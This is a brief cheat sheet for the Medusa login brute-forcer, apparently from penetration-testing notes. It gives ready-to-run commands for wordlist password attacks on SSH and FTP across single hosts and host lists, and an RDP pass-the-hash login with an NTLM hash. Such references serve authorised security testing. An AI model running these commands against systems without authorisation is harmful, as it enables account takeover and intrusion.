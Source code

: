 - - -
Note : Login brute-forcer tool designed to be speedy, parallel and modular.
It supports many protocols: AFP, CVS, FTP, HTTP, IMAP, rlogin, SSH, Subversion, and VNC to name a few.
- - -
### Usage : 

**<u>For SSH</u>** : 
```sh
medusa -u testuser -P wordlist.txt -h <host> -M ssh
medusa -h <host> -U users.txt -P pass.txt -M ssh -n 2222
```

**<u>For FTP</u>** : 
```sh
medusa -h <host> -u ignite -P pass.txt -M ftp
medusa -h <host> -U users.txt -p 123 -M ftp
medusa -h <host> -U users.txt -P pass.txt -M ftp
medusa -H hosts.txt -U user.txt -P pass.txt -M ftp
medusa -h <host> -u ignite -P pass.txt -M ftp -O log.txt
medusa -H hosts.txt -U users.txt -P pass.txt -M ftp -v
```


**<u>RDP (pass-the-hash)</u>** : 
```sh
medusa -M rdp -m PASS:HASH -h <host> -u someuser -p <NTLM_hash>
```

- - -





